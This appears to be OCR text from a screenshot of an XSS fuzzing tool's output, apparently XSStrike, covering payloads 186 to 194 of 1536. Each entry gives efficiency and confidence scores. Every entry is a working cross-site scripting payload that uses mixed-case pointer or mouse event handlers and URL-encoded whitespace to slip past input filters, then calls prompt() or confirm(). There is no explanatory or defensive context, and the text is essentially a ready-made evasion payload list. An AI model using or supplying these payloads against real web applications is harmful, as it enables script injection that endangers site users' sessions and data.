 ------------------------------------------------------------
 Payload: <D3v/+/onpoInTerEnTER%0a=%0a(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 186/1536
 
------------------------------------------------------------
 Payload: <hTml%09ONmoUSeoVEr+=+(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 187/1536
 
------------------------------------------------------------
 Payload: <A%09oNpoINTEreNteR%09=%09a=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 188/1536
 
------------------------------------------------------------
 Payload: <dEtaIls/+/ONpoINTERENTER%09=%09(prompt)``// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 189/1536
 
------------------------------------------------------------
 Payload: <hTml%09OnpOinTEreNtER%0a=%0a(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 190/1536
 
------------------------------------------------------------
 Payload: <a%09ONPoInteReNter%09=%09(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 191/1536
 
------------------------------------------------------------
 Payload: <d3V%09ONpoINtERENtER%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 192/1536
 
------------------------------------------------------------
 Payload: <A%0aoNPOINtErENTEr%0a=%0aa=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 193/1536
 
------------------------------------------------------------
 Payload: <htMl%0doNpOINteRENTer%0a=%0a(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 194/1536
 